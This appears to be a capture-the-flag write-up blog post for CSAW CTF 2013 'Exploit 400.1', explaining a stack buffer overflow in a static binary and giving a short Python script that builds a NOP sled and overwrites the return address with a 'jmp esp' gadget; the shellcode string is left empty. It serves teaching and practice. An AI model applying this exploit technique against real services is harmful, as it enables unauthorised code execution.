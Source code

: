 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 400.1"
---
```


This challenge was a service reading prompting some data, doing some stuff and then exiting. The file was stripped, was partly written in assembly and staticly linked. After doing some test we found that inputting a lot of data would result in a segmentation fault. If we wrote enough data, we could actually rewrite the return value and jump anywhere in the code. All we needed was then to jump on our shellcode in the buffer.

There were some `jmp esp` in the file we could use, so we just had to use it to jump in the stack and execute our shellcode. $esp wasn't pointing to the buffer, but by writing a nop slope and then the shellcode right before the return adresse, a jump on $esp would lead to our shellcode.

The exploit script was:

```python

#!/usr/bin/env python

from struct import pack
shellcode = ""

ret_off = 417
off_send = pack("I", 0x080DE74F) # jmp esp location
payload = '\x90' * (ret_off - len(shellcode)) + shellcode + off_send
print(payload)


```
